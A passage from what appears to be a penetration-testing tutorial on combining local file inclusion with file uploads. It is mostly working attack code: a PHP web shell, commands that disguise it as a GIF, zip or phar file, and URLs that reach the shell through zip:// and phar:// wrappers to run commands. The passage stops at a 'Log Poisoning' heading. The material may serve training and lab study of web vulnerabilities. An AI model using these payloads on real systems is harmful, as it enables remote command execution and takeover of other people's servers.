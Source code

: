 Now, we need to upload our malicious image file.

### **Uploaded File Path**

```bash
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

**Note:** To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path

## **Zip Upload**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

### Using ZIP Wrapper

```bash
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## **Phar Upload**

To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile it into a `phar` file and rename it to `shell.jpg` as follows:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

### Using Phar Wrapper

```bash
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

# **Log Poisoning**
